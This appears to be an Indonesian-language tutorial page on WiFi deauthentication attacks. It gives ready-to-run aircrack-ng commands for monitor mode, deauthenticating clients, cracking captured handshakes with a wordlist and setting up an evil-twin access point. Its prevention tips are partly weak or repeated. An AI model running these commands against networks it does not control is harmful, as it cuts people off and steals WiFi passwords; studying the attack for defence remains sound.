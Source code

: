 ```yaml
---
sidebar_position: 1
---
```


# Deauthentication Attack

## Pendahuluan

Deauthentication attack adalah jenis serangan denial-of-service (DoS) yang menargetkan jaringan WiFi. Serangan ini bekerja dengan cara mengirimkan paket deauthentication ke perangkat yang terhubung ke jaringan WiFi, sehingga perangkat tersebut terputus dari jaringan.

## Cara Kerja Deauthentication Attack

Serangan deauthentication memanfaatkan celah dalam protokol IEEE 802.11, yang merupakan standar untuk jaringan WiFi. Protokol ini memungkinkan perangkat untuk memutuskan koneksi dari jaringan dengan mengirimkan paket deauthentication. Namun, penyerang dapat memanfaatkan fitur ini untuk mengirimkan paket deauthentication palsu, yang menyebabkan perangkat yang sah terputus dari jaringan.

## Alat yang Digunakan untuk Melakukan Deauthentication Attack

Ada berbagai alat yang dapat digunakan untuk melakukan serangan deauthentication, antara lain:

- **Aireplay-ng**: Alat ini adalah bagian dari suite Aircrack-ng, yang merupakan kumpulan alat untuk menguji keamanan jaringan WiFi. Aireplay-ng dapat digunakan untuk mengirimkan paket deauthentication ke perangkat yang terhubung ke jaringan WiFi.
- **MDK3**: Alat ini juga dapat digunakan untuk mengirimkan paket deauthentication. MDK3 memiliki beberapa fitur tambahan yang tidak dimiliki aireplay-ng, seperti kemampuan untuk mengirimkan paket deauthentication ke beberapa perangkat secara bersamaan.
- **Scapy**: Alat ini adalah library Python yang dapat digunakan untuk membuat dan mengirimkan paket jaringan. Scapy dapat digunakan untuk membuat paket deauthentication khusus.

## Cara Melakukan Deauthentication Attack

### 1. Setup Monitor Mode
#### Menggunakan `iwconfig`
```bash
nmcli
iwconfig
ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up
```

#### Menggunakan `airmon-ng`
```bash
airmon-ng
airmon-ng check kill  # Menghentikan Network Manager (opsional)
airmon-ng start wlan0
```

### 2. Mencari Target dengan `airodump-ng`
```bash
airodump-ng wlan0mon
```

### 3. Menargetkan Spesifik AP dan Klien
```bash
airodump-ng -d "target's BSSID" -c "target's channel number" wlan0mon
airodump-ng -d "target's BSSID" -c "target's channel number" -w "path/dir" wlan0mon
```
#### Contoh:
```bash
airodump-ng -d  6C:3B:6B:F2:4E:59 -c 10 -w Documents/testwifi wlan0mon
```

### 4. Melakukan Serangan Deauthentication
```bash
aireplay-ng -0 0 -a AP -c CLIENT wlan0mon
```
#### Contoh:
```bash
aireplay-ng -0 0 -a 50:C7:BF:DC:4C:E8 -c E0:B5:2D:EA:18:A7 wlan0mon  # Menargetkan klien tertentu
aireplay-ng -0 0 -a 50:C7:BF:DC:4C:E8 wlan0mon  # Menargetkan semua klien
```

### 5. Melakukan Crack Sandi
```bash
airodump-ng -d "target's BSSID" -c "target's channel number" -w "path/dir" wlan0mon
aircrack-ng -w /usr/share/wordlists/rockyou.txt "path.cap"
```
#### Contoh:
```bash
aircrack-ng -w /usr/share/wordlists/rockyou.txt pentest_test-01.cap
```

### 6. Membuat Access Point Palsu dengan `airbase-ng`
`airbase-ng` digunakan untuk membuat Access Point palsu (**Rogue AP**) guna melakukan serangan seperti **Evil Twin Attack** atau **Man-in-the-Middle (MITM)**.

#### **Sintaks Dasar**:
```bash
airbase-ng [opsi] -e "SSID" -c "channel" wlan0mon
```
#### **Contoh**:
```bash
airbase-ng -e "Free WiFi" -c 6 wlan0mon
```
- `-e "Free WiFi"` → Menentukan nama SSID yang akan dipalsukan.
- `-c 6` → Menentukan channel WiFi (sesuai dengan target).
- `wlan0mon` → Interface yang dalam mode monitor.

#### **Opsi Tambahan**:
- `-a <BSSID>` → Menentukan BSSID (opsional, jika ingin meniru BSSID tertentu).
- `--essid "SSID"` → Alternatif untuk menentukan SSID yang dipalsukan.
- `-N` → Menonaktifkan broadcast SSID (hidden SSID).
- `-P` → Mengaktifkan mode "karma attack" untuk menangkap koneksi otomatis dari perangkat yang mencari SSID tertentu.
- `-C <filename>` → Menentukan konfigurasi tambahan untuk AP palsu.

### **Penjelasan Perintah:**
#### `airmon-ng`
- `check kill` → Menghentikan proses yang bisa mengganggu mode monitor.
- `start wlan0` → Mengaktifkan mode monitor pada interface `wlan0`.
- `stop wlan0mon` → Mengembalikan interface ke mode normal.

#### `airodump-ng`
- `-d <BSSID>` → Menargetkan Access Point tertentu.
- `-c <channel>` → Memfilter hanya pada channel tertentu.
- `-w <path>` → Menyimpan hasil dalam file untuk analisis lebih lanjut.
- `--encrypt <WEP/WPA/WPA2>` → Memfilter jaringan berdasarkan enkripsi.
- `--essid <SSID>` → Memfilter hanya jaringan dengan SSID tertentu.

#### `aireplay-ng`
- `-0 <count>` → Mode deauthentication attack (`0` untuk terus-menerus).
- `-a <BSSID>` → Menargetkan Access Point tertentu.
- `-c <Client MAC>` → Menargetkan klien tertentu (opsional, jika dihapus semua klien akan dideauth).

#### `aircrack-ng`
- `-w <wordlist>` → Menentukan file wordlist untuk brute-force.
- `<file.cap>` → File capture yang akan dianalisis.
- `-b <BSSID>` → Menentukan target BSSID tertentu.
- `-e <SSID>` → Menentukan SSID jaringan target secara spesifik.

## Mengecek Perangkat Jaringan
```bash
nmcli device status  # Menampilkan status perangkat jaringan
nmcli connection show  # Menampilkan daftar koneksi yang tersedia
nmcli device wifi list  # Melihat jaringan Wi-Fi yang terdeteksi

ifconfig  # Menampilkan informasi semua interface jaringan
ifconfig wlan0  # Menampilkan informasi detail tentang wlan0
ip a  # Alternatif untuk melihat informasi IP dan interface

iwconfig  # Melihat status mode jaringan

iw dev  # Menampilkan perangkat wireless yang tersedia
iw wlan0 link  # Menampilkan informasi koneksi saat ini
iw wlan0 scan  # Melakukan pemindaian jaringan Wi-Fi di sekitar

ethtool wlan0  # Menampilkan informasi detail perangkat jaringan

arp-scan --localnet  # Memindai semua perangkat dalam jaringan lokal

rfkill list  # Melihat status perangkat yang bisa dinonaktifkan
rfkill unblock all  # Mengaktifkan kembali semua perangkat yang diblokir
```

## Cara Mencegah Deauthentication Attack

Ada beberapa cara untuk mencegah serangan deauthentication, antara lain:

- **Menggunakan WPA3**: WPA3 adalah protokol keamanan WiFi terbaru yang lebih aman daripada WPA2. WPA3 menggunakan enkripsi yang lebih kuat dan memiliki fitur-fitur keamanan tambahan yang dapat membantu mencegah serangan deauthentication.
- **Mengaktifkan fitur manajemen frame**: Fitur ini dapat membantu mencegah serangan deauthentication dengan cara memblokir paket deauthentication palsu.
- **Menggunakan VPN**: VPN dapat mengenkripsi lalu lintas internet Anda dan menyembunyikan alamat IP Anda. Hal ini dapat membantu melindungi Anda dari serangan deauthentication.
- **Memperbarui firmware router**: Memperbarui firmware router Anda secara teratur dapat membantu memastikan bahwa router Anda memiliki patch keamanan terbaru.
- **Menyembunyikan SSID WiFi**: Dengan menyembunyikan SSID, hanya perangkat yang mengetahui nama jaringan yang dapat menghubungkan diri.
- **Menggunakan VPN**: VPN akan mengenkripsi lalu lintas internet Anda sehingga lebih sulit bagi penyerang untuk melancarkan serangan.

## Kesimpulan

Deauthentication attack adalah serangan yang meresahkan yang dapat mengganggu koneksi internet Anda dan bahkan mencuri informasi sensitif Anda. Namun, ada beberapa cara untuk mencegah serangan ini. Dengan mengikuti tips di atas, Anda dapat membantu melindungi diri Anda dari serangan deauthentication.

> **Catatan:**
> Informasi yang diberikan di sini hanya untuk tujuan pendidikan. Saya tidak bertanggung jawab atas penyalahgunaan informasi ini.

### Sumber:
Artikel ini disusun berdasarkan referensi dari:

- [SudoRealm - Deauthentication Attack using Kali Linux](https://sudorealm.com/blog/deauthentication-attack-using-kali-linux)
- [Aircrack-ng - Newbie Guide](https://www.aircrack-ng.org/doku.php?id=newbie_guide)
- [InkyVoxel - How to Enable Monitor Mode](https://www.inkyvoxel.com/how-to-enable-monitor-mode)